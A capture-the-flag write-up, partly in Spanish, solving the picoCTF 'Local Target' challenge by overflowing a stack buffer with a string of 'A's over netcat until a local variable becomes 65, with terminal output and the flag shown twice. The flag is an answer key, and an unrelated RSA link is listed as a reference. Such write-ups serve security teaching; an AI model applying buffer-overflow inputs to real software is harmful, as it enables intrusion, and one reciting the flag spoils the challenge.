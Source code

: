 # Local Target

## Objetivo

Smash the stack Can you overflow the buffer and modify the other local variable? The program is available [here](https://artifacts.picoctf.net/c/519/local-target). You can view source [here](https://artifacts.picoctf.net/c/519/local-target.c). And connect with it using: `nc saturn.picoctf.net 61512`

## Hints

- Do anything you can to change `num`.
- When you change `num`, view the value as hexadecimal.

## Solución

```     
                                                                                                                                                                      
┌──(kali㉿kali)-[/media/sf_SEGURIDAD/Parcial III/Binary Explotation/02- Local Target]
└─$ ls                   
local-target  local-target.c  Untitled.md
                                                                                                                                                                      
┌──(kali㉿kali)-[/media/sf_SEGURIDAD/Parcial III/Binary Explotation/02- Local Target]
└─$ chmod +x local-target
                                                                                                                                                                      
┌──(kali㉿kali)-[/media/sf_SEGURIDAD/Parcial III/Binary Explotation/02- Local Target]
└─$ ./local-target       
Enter a string: xcxzcsvcvcxzvvvvvvvvvv

num is 64
Bye!
                                                                                                                                                                      
┌──(kali㉿kali)-[/media/sf_SEGURIDAD/Parcial III/Binary Explotation/02- Local Target]
└─$ nc saturn.picoctf.net 61512
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA

num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
                                                                                                                                                                      
┌──(kali㉿kali)-[/media/sf_SEGURIDAD/Parcial III/Binary Explotation/02- Local Target]
└─$ 

```

## Flag

picoCTF{l0c4l5_1n_5c0p3_ee58441a}

## Notas adicionales

Analizamos el codigo: en el codigo c veremos que win es 65.

## Referencias

[rsa](https://simple.wikipedia.org/wiki/RSA_algorithm)